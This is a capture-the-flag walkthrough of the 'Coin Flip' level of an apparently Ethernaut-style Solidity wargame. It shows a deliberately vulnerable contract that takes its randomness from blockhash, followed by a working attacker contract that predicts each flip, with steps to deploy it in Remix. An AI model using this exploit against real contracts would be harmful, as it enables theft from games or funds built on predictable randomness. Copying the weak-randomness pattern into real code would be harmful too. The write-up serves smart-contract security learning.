 # 03 Coin Flip


```
This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

  Things that might help

See the Help page above, section "Beyond the console"
```
####  code
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}

```

#### Start 


### (1) `Make consecutiveWins = 10`


Looking at the code, you can see that the value consecutiveWins can be incremented when the `if (side == _guess)` condition

We can see that the code is calculating the side. From here we can write another contract to calculate the correct side and then call the fucntion flip with the correct side

```
 uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
 uint256 blockValue = uint256(blockhash(block.number - 1));
 lastHash = blockValue;
 uint256 coinFlip = blockValue / FACTOR;
 bool side = coinFlip == 1 ? true : false;

```

You can no longer use Open Developer Tools (F12) alone. I suggest you use remix to write code and deploy contracts

#### This is the code I used to attack the CoinFlip contract
```

    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;


    interface CoinFlip {
        function flip(bool _guess) external returns (bool);
        function consecutiveWins() external view returns(uint256);
    }

    contract Hack {

        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

        function _getSide() private view returns(bool){
            uint256 blockValue = uint256(blockhash(block.number - 1));
            uint256 coinFlip = blockValue / FACTOR;
            bool side = coinFlip == 1 ? true : false;
            return side;
        }
            
        

        function exploitCoinFlip(address _targetExploit) external {
                require( CoinFlip(_targetExploit).flip(_getSide()) == true,"false");
        }

        function getConsecutiveWins (address _targetExploit) view external returns (uint256) {
            return  CoinFlip(_targetExploit).consecutiveWins();
        }

    }

```
- `function _getSide() private view returns(bool)`

    This function to calculate the correct side and called by function `exploitCoinFlip`

- `function exploitCoinFlip(address _targetExploit) external`

    This function call function `flip` in the target CoinFlip contract to increment the value `consecutiveWins`

- `function getConsecutiveWins (address _targetExploit) view external returns (uint256)`

    This function just check the value `consecutiveWins` how much is it now

Use the remix deploy contract `Hack`  then call the function `exploitCoinFlip(address _targetExploit)` 10 times

Click button Submit instance and confirm transaction

# !!! we passed !!!


